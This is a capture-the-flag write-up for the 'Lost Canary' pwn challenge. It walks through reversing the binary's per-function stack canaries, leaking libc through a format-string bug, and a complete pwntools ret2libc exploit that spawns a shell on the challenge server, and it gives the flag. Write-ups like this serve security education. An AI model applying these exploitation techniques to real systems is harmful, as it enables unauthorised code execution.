

# Lost Canary


### Description:
> Author: spicypete
>
>Damn, I lost my canary at one of the train stations. Can you help me find it?
>
>`ncat --ssl lost-canary.chal.uiuc.tf 1337`
>
>This is a rev/pwn challenge, not just rev.
### Files: [ld-2.31.so](ld-2.31.so), [lost_canary](lost_canary), [Makefile](Makefile), [libc-2.31.so](libc-2.31.so), [Dockerfile](Dockerfile)

### Overview:
The challenge binary is a relatively large file (around 10 MB) and contains 0x8000 functions named in the format `station_n()`. The `select_station()` function prompts us for a number between 0 and 0x8000 and jumps to the corresponding station.

Each station has the following characteristics:
1. It contains a buffer overflow.
2. It performs a canary check using a hardcoded canary stored in the .data section of the binary.
3. Said canary contains some "bad" bytes to prevent us from achieving PC-control.

Let's analyze for example `station_1337`:

```c
void station_1337(void)
{
  char local_1018 [4100];
  char local_14 [4];
  ulong local_10;
  
  local_10 = ___stack_chk_guard_1337;
  printf("%s","Welcome to station 1337.\nEnter ticket code:");
  fgets(local_1018,0x1000,stdin);
  strcpy(local_14,local_1018);
  local_10 = local_10 ^ ___stack_chk_guard_1337;
  if (local_10 != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

In this function, we can notice an obvious buffer overflow when `strcpy()` copies our buffer into `local_14`. However, examining the value of `___stack_chk_guard_1337`, which is `0x667a5943524b7200`, reveals the presence of a null byte which prevents `strcpy()` from overwriting the return pointer.

By looking at the other station functions we can categorize them in 3 types:
- The first one uses `fgets()` for input and `strcpy()` to overflow the buffer, `strcpy()` stops after a null byte.
- The second one uses `scanf("%s")`, which stops reading input after a whitespace character.
- The last one uses `gets()`, which stops after a newline.

### Reversing: 

We need to find a station which has a canary that doesn't contain any bad bytes for the functions used within it.
To achieve this, i dumped the `.data` section to parse the canaries and mapped each one to its corresponding function number. Fortunately, the canaries were already ordered, with the first canary used in `station_0`, the second in `station_1`, and so on.

Secondly i parsed the station functions themselves to check if they used `fgets()`/`gets()`/`scanf()`, i used the [ghidra2dwarf](https://github.com/cesena/ghidra2dwarf) to dump the decompiled functions into .c file.

Here's my [script](parse.py) to find the vulnerable function:

```py
from pwn import *

with open("text.data", "rb") as f: #.data section
    data = b"".join(f.readlines())

data = data[16:] #removing __data_start and __dso_handle

canary = {}

for i in range(0, len(data), 8): #mapping each number to its corrisponding canary
    canary[i//8]=data[i:i+8]
    
with open("lost_canary_dbg.c", "r") as f: #parsing the decompiled functions
    data = (("".join(f.readlines())).split("void station"))[1:]

for idx, i in enumerate(data): #checking if the canary contains a bad char for the function used
    if "fgets" in i:
        if b"\x00" in canary[idx]:
            continue
    elif "gets" in i:
        if b"\n" in canary[idx]:
            continue
    elif "scanf" in i:
        if b" " in canary[idx]:
            continue
    print(f"FOUND {idx}")
```

Running the script:
```bash
$ python3 parse.py 
FOUND 14927
```

If we check `station_14927`:

```c
void station_14927(void)
{
  char local_14 [4];
  ulong local_10;
  
  local_10 = ___stack_chk_guard_14927;
  sleep(1);
  printf("%s","Welcome to station 14927.\nEnter ticket code:");
  gets(local_14);
  local_10 = local_10 ^  ___stack_chk_guard_14927;
  if (local_10 != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

And its corrisponding canary is `0x7361754569205965` which doesn't contain any newlines!

### Exploit:
We can now overwrite the return pointer using the `station_14927()` function, the last thing we need is a libc leak, thankfully there is a format string vuln in `select_station()` which we can use to leak the base of libc:

```c
printf("Enter station number: ");
fgets((char *)&local_28,16,stdin);
puts("Traveling to station: ");
printf((char *)&local_28);
putchar(10);
local_c = atoi((char *)&local_28);
```

We can use a payload such as `"14927%p"` which will still make `atoi()` return the correct station number while also printing out the value in `RSI`, which at the moment of the call to `printf()` is a libc address, more specifically `_IO_2_1_stdout_ + 131`.

Putting it all together gives us our [exploit](solve.py) which we can use to call `system("/bin/sh")` and get the flag:

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./lost_canary_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

REMOTE_NC_CMD    = "nc lost-canary.chal.uiuc.tf 1337"    # `nc <host> <port>`

bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
b *select_station+104
b *station_14927
c
"""

def conn():
    if args.LOCAL:
        return process([exe.path])
    
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
    
    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]), ssl=True)

def main():
    r = conn()

    r.sendline(b"14927%p")
    r.recvuntil(b"14927")
    libc.address = int(r.recvline(False), 16) - libc.sym._IO_2_1_stdout_ - 131
 
    log.info(f"LIBC @ {hex(libc.address)}")

    rop = ROP(libc)
    POP_RDI = p64(rop.rdi.address)
    canary = 0x7361754569205965
    chain = p64(canary)*2 + POP_RDI + p64(libc.binsh()) + p64(rop.ret.address) + p64(libc.sym.system)

    r.sendline(b"A"*4+chain)
    r.interactive()

if __name__ == "__main__":
    main()
```

Flag: ```uiuctf{the_average_sigpwny_transit_experience}```
